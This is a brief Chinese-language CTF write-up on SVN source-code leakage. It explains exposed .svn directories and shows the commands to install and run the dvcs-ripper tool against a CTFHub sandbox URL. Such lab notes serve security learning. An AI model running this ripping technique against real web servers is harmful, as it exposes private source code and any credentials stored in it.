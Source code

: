 ```yaml
---
title: svn泄露
date: 2024-11-12T13:38:54Z
lastmod: 2024-11-12T13:59:43Z
---
```


# svn泄露

*SVN是源代码本本管理软件。使用SVN管理本地代码过程中，会生成一个名为.svn的隐藏文件夹，其中包含重要的源码信息。网站管理员在发布代码时，没有使用导出功能，直接进行复制粘贴。*   
漏洞例子：`xxxx/.svn/entries`​

使用[dvcs-ripper](https://github.com/kost/dvcs-ripper)

[kost/dvcs-ripper：Rip Web 可访问（分布式）版本控制系统：SVN/GIT/HG... --- kost/dvcs-ripper: Rip web accessible (distributed) version control systems: SVN/GIT/HG...](https://github.com/kost/dvcs-ripper)

Rip Web 可访问（分布式）版本控制系统：SVN、GIT、Mercurial/hg、bzr、...

即使目录浏览关闭，它也可以翻录存储库。

确保将自己置于要下载/克隆存储库的空目录中。

​`sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl`​

安装依赖

​`git clone https://github.com/kost/dvcs-ripper.git`​下载仓库

进入文件夹使用ripper

​`./rip-svn.pl -u http://challenge-8efe9a7f8fc2b4e1.sandbox.ctfhub.com:10800/.svn/`​

‍
